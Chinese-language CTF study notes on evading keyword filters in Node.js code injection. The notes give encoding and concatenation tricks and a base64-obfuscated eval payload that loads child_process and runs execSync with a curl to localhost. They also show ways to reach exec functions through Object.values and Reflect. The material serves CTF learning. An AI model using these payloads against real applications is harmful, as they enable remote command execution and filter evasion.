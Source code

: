 - 总体思路和SSTI相似
- [[CTFWEB/JS/弱类型]]
- # 关键字
	- 16进制编码
		- ```js
		  console.log("a"==="\x61");
		  ```
	- unicode编码
		- ```js
		  console.log("\u0061"==="a");
		  ```
	- 加号拼接
	- 模板字符串
		- ```js
		  var s = `${'fl'}ag`
		  ```
	- concat连接
		- ```js
		  "exe".concat("cSync")
		  ```
	- base64编码
		- ```js
		  eval(Buffer.from('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=','base64').toString())
		  ```
- # 取属性
	- Object.values
		- ```js
		  Object.values(require('child_process'))[5]('curl 127.0.0.1:1234')
		  ```
	- Refrect
		- ```js
		  console.log(Reflect.ownKeys(global))
		  //返回所有函数
		  console.log(global[Reflect.ownKeys(global).find(x=>x.includes('eval'))])
		  //拿到eval
		  ```
- # 参考
	- https://www.anquanke.com/post/id/237032